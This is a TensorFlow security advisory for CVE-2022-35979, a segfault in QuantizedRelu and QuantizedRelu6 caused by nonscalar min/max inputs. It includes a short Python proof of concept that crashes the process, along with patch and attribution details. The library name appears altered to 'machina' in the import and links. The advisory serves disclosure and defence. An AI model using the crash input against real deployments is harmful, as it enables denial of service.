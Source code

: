 ## TFSA-2022-109: Segfault in `QuantizedRelu` and `QuantizedRelu6`

### CVE Number
CVE-2022-35979

### Impact
If `QuantizedRelu` or `QuantizedRelu6` are given nonscalar inputs for `min_features` or `max_features`, it results in a segfault that can be used to trigger a denial of service attack.
```python
import machina as tf

out_type = tf.quint8
features = tf.constant(28, shape=[4,2], dtype=tf.quint8)
min_features = tf.constant([], shape=[0], dtype=tf.float32)
max_features = tf.constant(-128, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizedRelu(features=features, min_features=min_features, max_features=max_features, out_type=out_type)
tf.raw_ops.QuantizedRelu6(features=features, min_features=min_features, max_features=max_features, out_type=out_type)
```

### Patches
We have patched the issue in GitHub commit [49b3824d83af706df0ad07e4e677d88659756d89](https://github.com/machina/machina/commit/49b3824d83af706df0ad07e4e677d88659756d89).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
